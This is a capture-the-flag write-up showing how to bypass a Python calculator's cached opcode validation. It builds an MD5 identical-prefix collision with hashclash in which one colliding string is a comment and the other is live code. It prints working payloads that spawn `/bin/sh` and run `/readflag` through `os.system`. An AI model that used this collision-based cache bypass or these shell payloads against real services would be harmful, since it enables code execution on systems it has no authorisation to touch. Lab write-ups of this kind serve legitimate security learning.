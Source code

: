 # Service

Checking the service, it is a calculator in Python.

![](screenshots/1.png)

It has some validation and caching that validation. Running the same code has a hit for the validation.
Some (most) opcodes are blacklisted, only a few of them are allowed, probably using the [dis](https://docs.python.org/3/library/dis.html).

![](screenshots/2.png)

Basically only literals and variables (where the locals/globals scope is empty) are allowed, nothing that would call a function.

# MD5 Collision

From the length of the hash, it is md5. Checking `md5("1+1")` is exactly the used `d96e018f51ea61e5ff2f9c349c5da67d`.

The md5 hash works with blocks (64 bytes). If we have a colliding block pair, appending the same to the both of them results in the same (new) hash.

If we can generate a valid code and a different malicious one, we can bypass the check.

# Hash clash

The [hashclash](https://github.com/cr-marcstevens/hashclash) projects is a low level tool to generate certain types of collisions.

There is an option for [Create you own text identical-prefix collision](https://github.com/cr-marcstevens/hashclash?tab=readme-ov-file#create-you-own-text-identical-prefix-collision).

## Example

Example:

```
md5("TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak")
=
md5("TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak")
```

- Create temporary working directory

  `mkdir textcoll_workdir`

  `cd textcoll_workdir`

- Run script

  `../scripts/textcoll.sh`

- Edit the script for more options: change alphabet, force specific bytes, etc...

## Generator script

The `scripts/textcoll.sh` generator script has a bunch of constraints well commented.

 * First block: 
   - byte21 has a +4 difference: you must ensure that this difference is possible in the alphabet, e.g., have both A and E(=A+4)
 * Second block: 
   - keep the alphabet of bytes 0-7 large: otherwise there could be no solutions
   - keep the alphabet of bytes 56-63 large: to make the search fast

## The idea

The biggest constraint is the biggest opportunity as well. The 4 difference for byte21 can basically flip a character. My choice was `#` to `'` as the difference between their ascii code is exactly 4.

For the valid calc: concatenating a bytestring to a variable is a valid opcode, and the comment is simply ignores everything afterwards.

For the malicious part: concatenating 2 bytestrings then concatenating more with arbitrary function calls is perfectly good.

```
b' ... '+b# ... '+evil_code
b' ... '+b' ... '+evil_code
```

The only caveat is that it should include only valid characters for the literal and a closing quote should not be present. Luckily enough, nothing such occurred.

## Execution

Changing the following was enough. The second block had no restriction at all.

```bash
FIRSTBLOCKBYTES="--byte0 b --byte1 \"'\" --byte18 \"'\"  --byte19 \"+\" --byte20 \"b\" --byte21 \"'#\""
SECONDBLOCKBYTES=''
```

Original [textcoll.sh](workdir/scripts/textcoll.sh) and the [textcoll-mod.sh](workdir/scripts/textcoll-mod.sh) modified one.

![](screenshots/3.png)


```bash
../scripts/textcoll-mod.sh
```

Took around 70 minutes to find a collision.

```
========= final_collision1.txt ==========
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q

========= final_collision2.txt ==========
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q
```

```
0ac8514c4fef27c2269938b257e7c609 *final_collision1.txt
0ac8514c4fef27c2269938b257e7c609 *final_collision2.txt
```

They only differ at the crucial comment/quote position.

# Exploit

```
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+print('pwned')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+print('pwned')

b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/bin/sh')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/bin/sh')
```

After looking around, there is a `readflag` binary in the root.

```
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/readflag')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/readflag')
```

![](screenshots/4.png)

# Flag
`CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}`